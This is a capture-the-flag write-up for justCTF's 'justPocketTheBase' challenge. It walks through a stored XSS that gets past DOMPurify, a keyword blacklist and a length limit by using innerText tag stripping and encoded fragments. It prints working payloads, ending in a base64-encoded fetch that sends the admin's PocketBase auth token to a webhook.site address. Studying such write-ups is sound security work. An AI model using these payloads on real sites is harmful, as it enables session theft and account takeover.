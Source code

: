 # justPocketTheBase

![challenge](assets/chall.png)
-![source code](assets/justpocketthebase_docker.tar.gz)

## Writeup

First, let's take a look at the website

![login](assets/login.png)

We have an authentication page that handle login and register at the same time, if we put new credentiels it will register a new account. When we log in we see a page to upload images of plants.

![upload](assets/upload.png)

Once we upload an image we can see there is a feature to report a page to admin. Looks like an XSS challenge!

![report](assets/report.png)

Now let's dig in the source code.

Looking at the Dockerfile we look that the flag is put inside an image using exiftool! Probably we will have to steal the image from the admin account.

![dockerfileprepare](assets/dockerprepare.png)

In the prepare.js code we can see that they are using [pocketbase](https://pocketbase.io/) to handle the database.

![preparejs](assets/preparejs.png)

![flaguser](assets/createflaguser.png)

After creating tables they add a user flag, and they put the flag image in the plants table associated with the flag user ID.

Let's check the code responsible for authentication, if there is any way to authenticate as flag user but I don't find any.

![logincode](assets/logincode.png)

Let's look at the report feature that we saw earlier.

![bot](assets/bot.png)

As expected, a bot will log in as flag user and will visit the plant we uploaded.

![view](assets/viewplant.png)

In the plant view page, the content of title given to our image is sanitized using [DOMPurify](https://github.com/cure53/DOMPurify). If we manage somehow to bypass that, we have another blacklist filter to deal with.

![blacklist](assets/blacklist.png)

If we bypass it, We have another obstacle, which is the length. Since it's a stored XSS the length of the title have a max value of 204 in the pocketbase db configuration.

![length](assets/titlelength.png)

![gif](assets/gif.mp4)
*Filters*

First our input is given to DOMPurify, it will sanitize it from any JS execution, for example it will remove dangerous tags and attributes like script, onerror, onmouseover ...

![dompurifyshema](assets/dompurifyshema.png)

They are using a recent version of DOMPurify, that don't have any known exploits, so it's less likely to bypass it.

![version](assets/dompurifyversion.png)

The output of DOMPurify goes into innerText, let's read the [documentation](assets/https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText) to see if we can make from it an XSS gadget.

![innerText](assets/innertext.png)

Here is an interesting feature that we can use, innerText will remove all the HTML tags and replace them with the value inside for example if we have `<a>scri</a><a>pt</a>` will return `script`. We can use that to hide onerror from DOMPurifiy.
But if we put `<img ...>` inside the HTML tag, it will be removed also, so we will HTML encode it. Here is the first payload:
`<a>&lt;img src='' one</a><a>rror=alert(1)&gt;</a>`

![shema2](assets/shema2.png)

Now we have to deal with the other filters, the ' ' and ( ) are blacklisted. we can replace alert(1) by alert\`1\` and remove '' in src, here is a working payload  
```
<a>&lt;img src one</a><a>rror=alert`1`&gt;</a>
```

![alert](assets/alert1.png)

Great! now we can execute a JS code, let's use it to steal the flag.

![jwt](assets/jwt.png)

In the requests sent, we can see that they are using a JWT in Authorisation header to fetch data, which is default for pocketbase.
In this [link](https://github.com/pocketbase/pocketbase/discussions/248), we find that pocketbase store tokens in localstorage, let's check that!

![console](assets/cosole.png)

Now we have to just send it to our webhook but we have to deal with additional keywords that we will use like fetch, parentheses ...
[Here](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md) we find some cool ways to bypass the blacklist. We will base64 the payload and eval it to avoid blacklisted keywords, Here is the final payload:
``` 
<a>&lt;img src one</a><a>rror=eval.call`${atob`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzk3NThmMGZkLTk2NTgtNGUxMi1iNTM3LWNkODA0NTRiODI2MC8nK2J0b2EobG9jYWxTdG9yYWdlLnBvY2tldGJhc2VfYXV0aCkp`}`&gt;</a> 
```

it has less than 200 characters so we are good to go!

![webhook](assets/webhook.png)

Now we can retreive all plants of the flag user.

![flag](assets/flag.png)

flag: justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}